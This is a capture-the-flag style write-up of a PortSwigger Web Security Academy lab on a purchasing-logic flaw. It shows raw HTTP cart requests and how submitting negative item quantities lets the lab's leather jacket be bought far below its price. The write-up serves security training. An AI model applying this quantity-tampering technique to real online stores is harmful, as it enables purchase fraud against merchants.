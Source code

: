 # [Lab 2: High-level logic vulnerability](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level)

---

## Description

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

Log in to the web application with the credentials `wiener:peter` and navigate to the "Lightweight l33t leather jacket" item. Add one to the cart, generating the following request.

```http
POST /cart HTTP/1.1
Host: ace01fd21e8279a6807d9a1300cc0098.web-security-academy.net
Cookie: session=zgpO45mtkqXozTGalnUg1TqsSBBTjtVq
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: https://ace01fd21e8279a6807d9a1300cc0098.web-security-academy.net
Dnt: 1
Referer: https://ace01fd21e8279a6807d9a1300cc0098.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&redir=CART&quantity=1
```

Walking through the rest of the purchasing workflow seems to indicate everything else is normal. Navigate to the cart and remove the jacket, generating the following request.

```http
POST /cart HTTP/1.1
Host: ace01fd21e8279a6807d9a1300cc0098.web-security-academy.net
Cookie: session=zgpO45mtkqXozTGalnUg1TqsSBBTjtVq
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: https://ace01fd21e8279a6807d9a1300cc0098.web-security-academy.net
Dnt: 1
Referer: https://ace01fd21e8279a6807d9a1300cc0098.web-security-academy.net/cart?err=INSUFFICIENT_FUNDS
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&quantity=-1&redir=CART
```

The application removes items from the cart by having the user submit the `productId` and a negative `quantity`.

There are no longer any items in the cart. What happens if this request is resent? How does the application respond to trying to add an item of `quantity=-1` to the cart? Resend the request.

The response is a 302 redirect to `/cart` with no indication of an error. Follow the redirect.

![](images/Pasted%20image%2020210820212938.png)

This indeed added the jacket to the cart with a quantity of -1. The total value to be withdrawn from the store credit is -$1337.00, which would be a nice deposit. Place the order.

Error. `Cart total prices cannot be less than zero`.

![](images/Pasted%20image%2020210820213159.png)

No problem. Add other items to the cart to cause the total price to be between $0 and $100, like 14 units of "High-End Gift Wrapping."

![](images/Pasted%20image%2020210820213501.png)

How will the application respond when ordering a negative quantity of leather jackets, though? Since that is the target item, flip the quantities to 1 "Lightweight l33t leather jacket" and -13 units of "High-End Gift Wrapping."

![](images/Pasted%20image%2020210820213803.png)

The final total is $44.67. Place the order and complete the challenge.

![](images/Pasted%20image%2020210820213944.png)




